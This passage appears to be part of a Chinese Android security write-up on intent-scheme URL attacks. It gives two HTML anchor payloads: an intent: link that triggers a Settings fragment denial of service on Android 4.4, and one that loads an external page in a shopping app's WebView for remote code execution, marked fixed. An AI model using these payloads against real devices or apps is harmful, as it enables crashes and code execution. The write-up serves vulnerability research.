 ![image](https://quip.com/blob/edcAAAmcC2M/pVEr-atKaZbIgM5PnEgIkQ?s=xYFkAvn63ajW)

    <a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
    17、fragment dos android 4.4 (selector)
    </a><br>

![image](https://quip.com/blob/edcAAAmcC2M/J0zUohQEnvMqb1lW6Jvy2Q?s=xYFkAvn63ajW)

**Case 7:WebView RCE**

    <a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
    15、驴妈妈代码执行（fixed）
    </a><br>

![image](https://quip.com/blob/edcAAAmcC2M/EH66J5e53bss-0A-lzvAmQ?s=xYFkAvn63ajW)

![image](https://quip.com/blob/edcAAAmcC2M/r6YcTMmorJ7gfFU-ATkRjQ?s=xYFkAvn63ajW)

#0x06 reference
------------

http://www.jssec.org/dl/android_securecoding_en.pdf